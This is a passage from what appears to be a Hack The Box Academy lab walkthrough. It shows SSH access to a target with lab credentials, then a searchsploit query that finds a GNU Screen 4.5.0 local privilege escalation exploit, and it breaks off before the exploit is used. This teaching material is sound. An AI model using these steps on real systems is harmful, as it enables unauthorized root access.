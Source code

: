 Students first need to connect to the spawned target machine with `SSH` using the credentials `htb-student:Academy_LLPE!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[us-academy-1]─[10.10.14.118]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh htb-student@10.129.2.210

The authenticity of host '10.129.2.210 (10.129.2.210)' can't be established.
ECDSA key fingerprint is SHA256:jqHwbeBBQLd/z1BFRM732tTqQbhKGni0KhrGMszsiVM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '10.129.2.210' (ECDSA) to the list of known hosts.
htb-student@10.129.119.156's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

<SNIP>

htb-student@NIX02:~$
```

Then, students need to use `searchsploit` on `Pwnbox`/`PMVPN` to search for the exploit code `GNU Screen 4.5.0`:

Code: shell

```shell
searchsploit "GNU Screen 4.5.0"
```

```
┌─[us-academy-1]─[10.10.14.12]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ searchsploit "GNU Screen 4.5.0"

--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                               |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                          | linux/local/41152.txt
--------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Subsequently, students need to mirror/copy the exploit code `linux/local/41154.sh` locally:

Code: shell
